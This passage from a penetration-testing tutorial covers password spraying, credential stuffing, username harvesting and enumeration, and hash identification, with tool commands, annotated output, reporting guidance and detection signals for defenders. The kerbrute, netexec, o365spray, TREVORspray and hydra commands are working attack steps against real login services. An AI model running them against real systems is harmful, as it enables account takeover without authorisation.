# jsmith
# smithj
# johns
# j.smith
# ...
```

`username-anarchy` expands each real name into every common corporate username permutation — feed it the OSINT name list, get a superset of candidates to validate.

### Harvesting names at scale

```bash
# LinkedIn -> username list in a chosen format (authorised OSINT)
linkedin2username -c "Acme Corp" -n corp.com -f '{first}.{last}'
# theHarvester -> emails/names from public sources
theHarvester -d corp.com -b bing,crtsh,linkedin -f harvest
```

`linkedin2username` scrapes employee names for a company and renders them into a chosen `{first}.{last}`-style pattern; `theHarvester` (Recon/OSINT notebook) pulls emails and names from many public sources. Both produce raw material for `username-anarchy`.

### Validating which candidates are real

Now confirm existence *without* wasting spray attempts. Several oracles reveal valid usernames by responding differently to existent vs non-existent accounts:

```bash
# Kerberos: valid vs invalid username produce different KDC errors (no 4625 noise)
kerbrute userenum -d corp.local --dc dc.corp.local candidates.txt

# O365/Azure: the login endpoint discloses whether a user exists
o365spray --enum --userfile candidates.txt --domain corp.com

# SMTP VRFY/RCPT (legacy mail servers) can confirm mailbox existence
smtp-user-enum -M RCPT -U candidates.txt -t mail.corp.com
```

- `kerbrute userenum` is the quietest AD oracle — the KDC returns `KDC_ERR_C_PRINCIPAL_UNKNOWN` for missing users and a different response for real ones, and it does **not** create failed-logon (4625) events on members.
- `o365spray --enum` uses Microsoft's own existence disclosure to prune your list to real cloud identities.
- `smtp-user-enum` is old but still works against misconfigured mail servers via `VRFY`/`RCPT TO` differences.

**The output of this phase** is `valid-users.txt` — the pruned, confirmed list you actually spray. Doing this first typically cuts a 2,000-candidate superset down to the few hundred that exist, making the spray faster, quieter, and lockout-safer.



---

## Part 14: Deeper Tool Walkthroughs (Real Output)

Reading tool output fluently is what separates "I ran the command" from "I understood the result." Here are annotated real-world screens.

### netexec spray — reading the result columns

```bash
netexec smb dc.corp.local -u valid-users.txt -p 'Autumn2024!' --continue-on-success
```

```
SMB  10.0.0.10  445  DC01  [*] Windows Server 2019 Build 17763 x64 (name:DC01) (domain:corp.local)
SMB  10.0.0.10  445  DC01  [-] corp.local\aisha.dunn:Autumn2024! STATUS_LOGON_FAILURE
SMB  10.0.0.10  445  DC01  [+] corp.local\john.smith:Autumn2024!
SMB  10.0.0.10  445  DC01  [-] corp.local\svc_sql:Autumn2024! STATUS_LOGON_FAILURE
SMB  10.0.0.10  445  DC01  [-] corp.local\mbrown:Autumn2024! STATUS_ACCOUNT_LOCKED_OUT
```

Decoding each line:

- Column order: protocol, target IP, port, hostname, then a status glyph and detail.
- `[*]` = informational (host/OS banner).
- `[-] ... STATUS_LOGON_FAILURE` = wrong password (normal, expected for most).
- `[+] corp.local\john.smith:Autumn2024!` = **valid credentials** — record it.
- `[-] ... STATUS_ACCOUNT_LOCKED_OUT` = **stop immediately** — you sprayed too hard or that account was already near its threshold; further attempts worsen it.

Other statuses you'll meet: `STATUS_PASSWORD_MUST_CHANGE` (valid password, expired — still a finding), `STATUS_PASSWORD_EXPIRED` (same), `STATUS_ACCOUNT_DISABLED` (valid-looking but unusable), `STATUS_ACCOUNT_RESTRICTION` (logon-hours/workstation restriction).

### kerbrute spray — the quiet path

```bash
kerbrute passwordspray -d corp.local --dc dc.corp.local valid-users.txt 'Autumn2024!'
```

```
    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/
Version: v1.0.3

2024/... >  [+] VALID LOGIN:  john.smith@corp.local:Autumn2024!
2024/... >  Done! Tested 240 logins (1 success) in 3.42 seconds
```

The value: kerbrute tested 240 users, found one, and generated **Kerberos pre-auth failures (4771/4768)** rather than interactive-logon failures (4625). A blue team watching only 4625 on member servers sees less; a mature one watching KDC events on the DC still catches it — which is exactly why Part 9 lists *both* event IDs.

### TREVORspray — cloud spraying with detection awareness

```bash
trevorspray -u valid-users.txt -p 'Autumn2024!'
```

```
[+] john.smith@corp.com : Autumn2024!   (VALID)
[*] aisha.dunn@corp.com  : LOCKED (smart lockout)
[*] mbrown@corp.com      : MFA required (valid password, blocked)
```

Note the three outcomes cloud IdPs produce: valid, smart-locked (Azure locked the *attempt pattern*, not necessarily the user), and **valid-password-but-MFA** — the last is a genuine finding you must report even though you didn't get in.

### Turning results into a clean credential list

```bash
# Collect all [+] hits across tools into one validated list
grep '\[+\]' spray-*.log | sed -E 's/.*\\([^:]+):(.*)/\1:\2/' | sort -u > valid-creds.txt
cut -d: -f1 valid-creds.txt > compromised-users.txt
```

This validated list is what feeds privilege-escalation, lateral movement, and the report.

---

## Part 15: Reporting the Findings

The techniques are only worth as much as the story you tell the client. A credential-attack section of a report should quantify risk and drive a fix, not just list passwords.

### The numbers that matter

| Metric | Example | Why the client cares |
|---|---|---|
| Breach-exposed employees | 37 / 210 | shows external attack surface |
| Reused passwords still valid | 6 | proves stuffing works *today* |
| Accounts cracked from dump | 128 / 210 (61%) | measures overall password hygiene |
| Fell to a single spray password | 9 | shows shared predictable choices |
| Valid password behind MFA | 14 | MFA is the only thing saving them |
| Accounts with no MFA | 22 | the actual exploitable gap |
| Privileged accounts cracked | 3 (incl. 1 Domain Admin) | the business-ending finding |

### The narrative

Lead with the chain, not the tool: "Public breach data exposed 37 employees; six of those passwords still authenticate to the VPN, four without MFA; from that foothold we dumped NTDS and cracked 61% of all passwords in under an hour, including a Domain Admin whose password was `Acme@2024`. This path required no software vulnerability." That paragraph lands harder than any screenshot.

### The recommendations (map each to a control)

- Enforce phishing-resistant MFA on *all* external services (kills stuffing/spraying).
- Deploy breached-password screening so `Acme@2024`/`Autumn2024!` cannot be set.
- Raise minimum length to a passphrase (defeats seasonal-pattern spraying).
- Disable legacy/basic auth (removes the MFA bypass sprayers target).
- Move service accounts to gMSA (25+ char) so Kerberoast/spray is hopeless.
- Add cross-account failed-logon correlation to the SIEM (detects spraying that per-account lockout misses).

### Redaction and handling

Cracked plaintexts are extremely sensitive. Store them encrypted, share via the client's secure channel, redact in the body of the report (show patterns, not passwords), and destroy working copies per the engagement's data-handling agreement. Mishandling a client's password list is itself a breach.

---

## Part 16: Final Revision / Summary

- **Three distinct attacks:** brute force (many passwords, one account, lockout-prone), **credential stuffing** (leaked pairs, one try each, reuse-driven), **password spraying** (one password, many accounts, lockout-aware). Confusing them causes mass lockouts.
- **Reuse is the engine of stuffing:** breached passwords work elsewhere because people reuse them. Screen exposure with HIBP k-anonymity (password never leaves your machine); use authorised breach datasets for targeted `email:password` testing.
- **Spraying is all about pacing:** learn the lockout policy (`--pass-pol`, `net accounts`), stay at ≤ threshold−1 per observation window, one password per round, add jitter, prefer business hours.
- **Tool per protocol:** `kerbrute` (quiet Kerberos enum+spray), `netexec`/CrackMapExec (SMB/LDAP/WinRM/RDP + policy read), `TREVORspray`/`o365spray`/`MailSniper` (Microsoft cloud/OWA), Hydra/ffuf (web).
- **Hash identification** decides tool+mode: recognise shapes on sight, confirm with `name-that-hash`/`haiti`/`hashid`/`hashcat --identify`, and remember 32-hex NTLM-vs-MD5 is resolved by *context*.
- **The credential loop:** breach → stuff → foothold → dump → crack → reuse intel → spray → more access. One reused password can unravel a domain with zero software exploits.
- **Defence is winnable here (unlike offline cracking):** MFA (breaks both attacks), ban breached/common passwords, length over complexity, disable legacy auth, smart lockout, and detect the cross-account failure fingerprint (4625/4771/4740 correlation).

---

## Part 17: Cheat Sheet / Quick Reference

### Breach exposure (safe)

```bash
# HIBP k-anonymity password check (password never sent)
sha1=$(printf '%s' 'Summer2024!' | sha1sum | awk '{print toupper($1)}')
curl -s "https://api.pwnedpasswords.com/range/${sha1:0:5}" | grep -i "${sha1:5}"
```

### Enumerate + spray (AD)

```bash
kerbrute userenum     -d corp.local --dc dc.corp.local users.txt
kerbrute passwordspray -d corp.local --dc dc.corp.local users.txt 'Autumn2024!'
netexec smb dc.corp.local -u user -p pass --pass-pol           # read lockout policy
netexec smb dc.corp.local -u users.txt -p 'Autumn2024!' --continue-on-success
netexec ldap|winrm|rdp|mssql|ssh ...                           # other protocols
```

### Microsoft / web

```bash
trevorspray -u users.txt -p 'Autumn2024!' --url https://login.microsoftonline.com
o365spray --enum --userfile users.txt --domain corp.com
hydra -L users.txt -p 'Autumn2024!' target http-post-form "/login:user=^USER^&pass=^PASS^:Invalid"
hydra -C pairs.txt  target http-post-form "/login:user=^USER^&pass=^PASS^:Invalid"   # stuffing
```

### Hash identification

```bash
name-that-hash -t '<hash>'          # -> hashcat -m and John --format
name-that-hash -f hashes.txt
haiti '<hash>'
hashid -m -j '<hash>'
hashcat --identify hashes.txt
```

### Shape quick-tells

```
32hex=MD5/NTLM(context)  40hex=SHA1  64hex=SHA256
$1$=md5crypt  $5$=sha256crypt  $6$=sha512crypt  $2b$=bcrypt
$krb5tgs$=Kerberoast(13100/krb5tgs)  $krb5asrep$=AS-REP(18200/krb5asrep)
aad3b435...:31d6...=LM:NT   WPA*01/02*=22000
```

### Lockout-safe cadence

```
attempts per account per observation window <= threshold - 1
one spray password per window; add --delay/--jitter; prefer business hours
read policy first:  netexec smb DC -u u -p p --pass-pol   (or  net accounts)
threshold 5 / window 30m  ->  1 pw / 30 min  ->  6 pws ~ 3 hours, zero lockouts
```

### Attack-selection quick logic

```
have leaked user:pass pairs   -> credential stuffing (hydra -C)
have many users, few passwords-> password spraying (kerbrute/netexec)
have one hash                 -> identify (nth) then crack (john/hashcat)
have one account, many guesses-> offline brute force only (never online)
```

### Detection signals

```
Spraying: many 4625 / 4771 across DISTINCT accounts, one source, one window
Success:  4624 shortly after a 4625 burst from the same source
Lockouts: surge in 4740; correlate ACROSS accounts, not per-account
```

### Username generation & enumeration

```bash
username-anarchy --input-file names.txt > candidates.txt   # all schemes
linkedin2username -c "Acme Corp" -n corp.com -f '{first}.{last}'
theHarvester -d corp.com -b bing,crtsh -f harvest
kerbrute userenum -d corp.local --dc dc.corp.local candidates.txt
o365spray --enum --userfile candidates.txt --domain corp.com
smtp-user-enum -M RCPT -U candidates.txt -t mail.corp.com
```

### netexec status strings (what they mean)

```
[+]                            = valid credentials
[-] STATUS_LOGON_FAILURE       = wrong password (normal)
[-] STATUS_ACCOUNT_LOCKED_OUT  = STOP, you sprayed too hard
STATUS_PASSWORD_MUST_CHANGE    = valid password, expired (finding)
STATUS_PASSWORD_EXPIRED        = valid password, expired (finding)
STATUS_ACCOUNT_DISABLED        = not usable
STATUS_ACCOUNT_RESTRICTION     = logon-hours / workstation limit
```

### Reporting metrics to capture

```
breach-exposed employees / total
reused passwords still valid
% of dump cracked
accounts that fell to one spray password
valid password behind MFA (report it!)
accounts with NO MFA (the real gap)
privileged accounts cracked (the headline)
```

---

## Part 18: Practice Labs & Resources

Topic-specific practice that trains these skills:

- **TryHackMe — "Password Attacks"** and **"Enumeration"/"Compromising Active Directory"** rooms: hands-on spraying with kerbrute/CrackMapExec against a lab DC.
- **TryHackMe "Attacktive Directory"** and **HackTheBox "Forest", "Sauna", "Active"**: enumerate users, spray, then pivot into AS-REP/Kerberoast + cracking — the full credential loop of Part 8.
- **GOAD (Game of Active Directory)** self-hosted lab: the best playground for lockout-aware spraying with netexec and kerbrute against a realistic multi-domain forest.
- **HackTheBox Academy — "Password Attacks" and "Active Directory Enumeration & Attacks" modules**: structured spraying, stuffing, and hash-ID exercises.
- **Have I Been Pwned** (own accounts/domains) and the **Pwned Passwords k-anonymity API**: practise safe breach-exposure checks and build a defensive password screen.
- **name-that-hash / hashcat example-hashes page**: drill hash identification against one sample per mode until shape-recognition is instant.
- **PortSwigger Web Security Academy — authentication labs**: credential-stuffing and username-enumeration practice against web logins with proper success/fail conditions.

Work every one only against accounts and systems you own or are authorised to test, learn the lockout policy before you spray, and always report a valid-password-behind-MFA as the real finding it is.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-password-attacks/06-credential-stuffing-spraying-and-hash-identification), with comments and the latest edits.*
